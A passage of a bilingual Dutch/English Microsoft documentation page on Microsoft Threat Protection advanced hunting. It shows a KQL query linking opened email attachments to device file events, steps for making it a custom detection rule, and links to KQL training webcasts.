<span data-ttu-id="bdbed-337">U hebt nu een query gemaakt waarmee alle inkomende e-mailberichten worden geïdentificeerd waarbij de gebruiker de bijlage heeft geopend of opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-337">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="bdbed-338">U kunt deze query ook verfijnen om te filteren op specifieke domeinen, bestanden, bestandstypen, enzovoort.</span><span class="sxs-lookup"><span data-stu-id="bdbed-338">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7.  <span data-ttu-id="bdbed-339">Functies zijn een speciaal type join, waarmee u meer tij informatie over een bestand kunt trekken, zoals de prevalente, onderteken-en uitgeversinformatie, enzovoort.  Als u meer wilt weten over het bestand, gebruikt u de functie verrijking **FileProfile ()** .</span><span class="sxs-lookup"><span data-stu-id="bdbed-339">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc.  To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


<span data-ttu-id="bdbed-340">**Een detectie maken**</span><span class="sxs-lookup"><span data-stu-id="bdbed-340">**Create a detection**</span></span>

<span data-ttu-id="bdbed-341">Wanneer u een query hebt gemaakt met informatie waarover u een **melding wilt ontvangen** als ze in de toekomst plaatsvinden, kunt u een aangepaste detectie van de query maken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-341">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span> 

<span data-ttu-id="bdbed-342">Door aangepaste detecties wordt de query uitgevoerd volgens de frequentie die u hebt ingesteld, en met de resultaten van de query's maakt u beveiligingswaarschuwingen, op basis van de beïnvloede activa die u kiest.</span><span class="sxs-lookup"><span data-stu-id="bdbed-342">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="bdbed-343">Deze meldingen komen overeen met incidenten en kunnen worden triaged als een andere Beveiligingsmelding die wordt gegenereerd door een van de producten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-343">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1.  <span data-ttu-id="bdbed-344">Op de pagina query verwijdert u de regel 7 en 8 die u hebt toegevoegd in stap 7 van de instructies voor het uitvoeren van de stappen en klikt u op **detectieregel maken**.</span><span class="sxs-lookup"><span data-stu-id="bdbed-344">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span> 
    
     

    > [!NOTE]
    > <span data-ttu-id="bdbed-346">Als u klikt op **detectieregel maken** en er syntaxisfouten zijn in uw query, wordt uw detectieregel niet opgeslagen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-346">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won’t be saved.</span></span> <span data-ttu-id="bdbed-347">Controleer de query om te controleren of er geen fouten zijn.</span><span class="sxs-lookup"><span data-stu-id="bdbed-347">Double-check your query to ensure there’s no errors.</span></span> 


2.  <span data-ttu-id="bdbed-348">Vul de vereiste velden in met de gegevens waarmee het beveiligingsteam de melding begrijpt, waarom de melding is gegenereerd en welke acties u ervan verloopt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-348">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span> 

    

    <span data-ttu-id="bdbed-350">Zorg ervoor dat u de velden vult met de duidelijkheid, zodat de volgende gebruiker een weloverwogen beslissing geeft over deze detectieregel waarschuwing</span><span class="sxs-lookup"><span data-stu-id="bdbed-350">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span> 

3.  <span data-ttu-id="bdbed-351">Selecteer de entiteiten die in deze waarschuwing worden beïnvloed.</span><span class="sxs-lookup"><span data-stu-id="bdbed-351">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="bdbed-352">Selecteer **apparaat** en **Postvak**in dit geval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-352">In this case, select **Device** and **Mailbox**.</span></span>

    
 

4.  <span data-ttu-id="bdbed-354">Bepaal welke actie moet worden uitgevoerd als de waarschuwing wordt geactiveerd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-354">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="bdbed-355">In dit geval voert u een antivirus scan uit, maar u kunt wel andere acties ondernemen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-355">In this case, run an antivirus scan, though other actions could be taken.</span></span> 

     

5.  <span data-ttu-id="bdbed-357">Selecteer het bereik voor de waarschuwingsregel.</span><span class="sxs-lookup"><span data-stu-id="bdbed-357">Select the scope for the alert rule.</span></span> <span data-ttu-id="bdbed-358">Aangezien deze query gebruikmaakt van apparaten, zijn de apparaatgroepen relevant voor deze aangepaste detectie overeenkomstig de Microsoft Defender ATP-context.</span><span class="sxs-lookup"><span data-stu-id="bdbed-358">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender ATP context.</span></span>  <span data-ttu-id="bdbed-359">Bij het maken van een aangepaste detectie die geen apparaten bevat als gevolg van een entiteit, is het bereik niet van toepassing.</span><span class="sxs-lookup"><span data-stu-id="bdbed-359">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>  

     

    <span data-ttu-id="bdbed-361">Voor deze pilot kunt u de regel beperkingen toepassen op een subset van testapparaten in uw productieomgeving.</span><span class="sxs-lookup"><span data-stu-id="bdbed-361">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6.  <span data-ttu-id="bdbed-362">Selecteer **Maken**. </span><span class="sxs-lookup"><span data-stu-id="bdbed-362">Select **Create**.</span></span> <span data-ttu-id="bdbed-363">Selecteer vervolgens **aangepaste detectieregels** in het navigatiedeelvenster.</span><span class="sxs-lookup"><span data-stu-id="bdbed-363">Then, select **Custom detection rules** from the navigation panel.</span></span>
 
     

     

<span data-ttu-id="bdbed-366">Op deze pagina kunt u de detectieregel selecteren waarmee een detailpagina wordt geopend.</span><span class="sxs-lookup"><span data-stu-id="bdbed-366">From this page, you can select the detection rule, which will open a details page.</span></span> 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="bdbed-367">Aanvullende geavanceerde jacht Walk-in-oefeningen</span><span class="sxs-lookup"><span data-stu-id="bdbed-367">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="bdbed-368">Als u meer wilt weten over een geavanceerde jacht, kunt u via de volgende webcasts de mogelijkheden van een geavanceerde jacht in Microsoft Threat Protection (MTP) volgen om query's met meerdere pijler te maken, naar entiteiten te draaien en aangepaste detecties en herstelacties te maken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-368">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft Threat Protection (MTP) to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-369">Bereid u voor voorbereiding met uw eigen GitHub-account voor het uitvoeren van de jagers-query's in uw test testomgeving.</span><span class="sxs-lookup"><span data-stu-id="bdbed-369">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>  

|  <span data-ttu-id="bdbed-370">Title</span><span class="sxs-lookup"><span data-stu-id="bdbed-370">Title</span></span>  |  <span data-ttu-id="bdbed-371">Beschrijving</span><span class="sxs-lookup"><span data-stu-id="bdbed-371">Description</span></span>  |  <span data-ttu-id="bdbed-372">MP4 downloaden</span><span class="sxs-lookup"><span data-stu-id="bdbed-372">Download MP4</span></span>  |  <span data-ttu-id="bdbed-373">Op YouTube letten</span><span class="sxs-lookup"><span data-stu-id="bdbed-373">Watch on YouTube</span></span>  |  <span data-ttu-id="bdbed-374">CSL-bestand voor gebruik</span><span class="sxs-lookup"><span data-stu-id="bdbed-374">CSL file to use</span></span>  |
|:-----|:-----|:-----|:-----|:-----|
| <span data-ttu-id="bdbed-375">Aflevering 1: basisprincipes van KQL</span><span class="sxs-lookup"><span data-stu-id="bdbed-375">Episode 1: KQL fundamentals</span></span> | <span data-ttu-id="bdbed-376">We bespreken de basisbeginselen van de geavanceerde jacht functies in Microsoft Threat Protection.</span><span class="sxs-lookup"><span data-stu-id="bdbed-376">We’ll cover the basics of advanced hunting capabilities in Microsoft Threat Protection.</span></span> <span data-ttu-id="bdbed-377">Lees meer over de beschikbare geavanceerde jacht-gegevens en de Basic KQL syntaxis en operatoren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-377">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span> | [<span data-ttu-id="bdbed-378"> MP4</span><span class="sxs-lookup"><span data-stu-id="bdbed-378"> MP4</span></span>](https://aka.ms/MTP15JUL20_MP4) | [<span data-ttu-id="bdbed-379">YouTube</span><span class="sxs-lookup"><span data-stu-id="bdbed-379">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM) | [<span data-ttu-id="bdbed-380">Aflevering 1: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="bdbed-380">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| <span data-ttu-id="bdbed-381">Aflevering 2: joins</span><span class="sxs-lookup"><span data-stu-id="bdbed-381">Episode 2: Joins</span></span> | <span data-ttu-id="bdbed-382">We gaan verder met het leren van gegevens in de geavanceerde jacht en het samenvoegen van tabellen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-382">We’ll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="bdbed-383">Meer informatie over binnenste, Outer, unieke en semi joins en de nuances van de standaard Kusto innerunique join.</span><span class="sxs-lookup"><span data-stu-id="bdbed-383">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span> | [<span data-ttu-id="bdbed-384">MP4</span><span class="sxs-lookup"><span data-stu-id="bdbed-384">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4) | [<span data-ttu-id="bdbed-385">YouTube</span><span class="sxs-lookup"><span data-stu-id="bdbed-385">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU) | [<span data-ttu-id="bdbed-386">Aflevering 2: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="bdbed-386">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| <span data-ttu-id="bdbed-387">Aflevering 3: gegevens samenvatten, draaien en visualiseren</span><span class="sxs-lookup"><span data-stu-id="bdbed-387">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="bdbed-388">Nu kunnen we gegevens filteren, manipuleren en samenvoegen, het is tijd om te beginnen met het samenvatten, spuiten, draaien en visualiseren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-388">Now that we’re able to filter, manipulate, and join data, it’s time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="bdbed-389">In deze aflevering houden we de operator voor samenvatten samen en maken enkele van de berekeningen die u kunt uitvoeren in extra tabellen in het schema geavanceerde jacht.</span><span class="sxs-lookup"><span data-stu-id="bdbed-389">In this episode, we’ll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="bdbed-390">De gegevenssets worden omgezet in grafieken die de analyse kunnen helpen verbeteren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-390">We turn our datasets into charts that can help improve analysis.</span></span> | [<span data-ttu-id="bdbed-391">MP4</span><span class="sxs-lookup"><span data-stu-id="bdbed-391">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4) | [<span data-ttu-id="bdbed-392">YouTube</span><span class="sxs-lookup"><span data-stu-id="bdbed-392">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y) | [<span data-ttu-id="bdbed-393">Aflevering 3: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="bdbed-393">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| <span data-ttu-id="bdbed-394">Aflevering 4: laten we beginnen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-394">Episode 4: Let’s hunt!</span></span> <span data-ttu-id="bdbed-395">KQL toepassen op incidenten bijhouden</span><span class="sxs-lookup"><span data-stu-id="bdbed-395">Applying KQL to incident tracking</span></span>|<span data-ttu-id="bdbed-396">Tijd voor het bijhouden van enkele kwaad willekeurige activiteiten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-396">Time to track some attacker activity!</span></span> <span data-ttu-id="bdbed-397">In deze aflevering gebruiken we onze verbeterde inzichten in KQL en de Advanced jacht in Microsoft Threat Protection om een aanval te volgen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-397">In this episode, we’ll use our improved understanding of KQL and advanced hunting in Microsoft Threat Protection to track an attack.</span></span> <span data-ttu-id="bdbed-398">In dit artikel leest u enkele tips en trucs die in het veld worden gebruikt voor het bijhouden van de activiteit van derden, waaronder de ABCs van Cyber Security en hoe u ze kunt toepassen op de reactie van een incident.</span><span class="sxs-lookup"><span data-stu-id="bdbed-398">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span> | [<span data-ttu-id="bdbed-399">MP4</span><span class="sxs-lookup"><span data-stu-id="bdbed-399">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4) | [<span data-ttu-id="bdbed-400">YouTube</span><span class="sxs-lookup"><span data-stu-id="bdbed-400">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8) | [<span data-ttu-id="bdbed-401">Aflevering 4: CSL-bestand in Git</span><span class="sxs-lookup"><span data-stu-id="bdbed-401">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a><span data-ttu-id="bdbed-402">Volgende stap</span><span class="sxs-lookup"><span data-stu-id="bdbed-402">Next step</span></span>
|<span data-ttu-id="bdbed-403"></span><span class="sxs-lookup"><span data-stu-id="bdbed-403"></span></span> <br>[<span data-ttu-id="bdbed-404">De fase sluiten en samenvatting</span><span class="sxs-lookup"><span data-stu-id="bdbed-404">Closing and summary phase</span></span>](mtp-pilot-close.md) | <span data-ttu-id="bdbed-405">Analyseer uw testresultaten voor Microsoft Threat Protection, presenteer ze voor uw belanghebbenden en voer de volgende stap uit.</span><span class="sxs-lookup"><span data-stu-id="bdbed-405">Analyze your Microsoft Threat Protection pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|

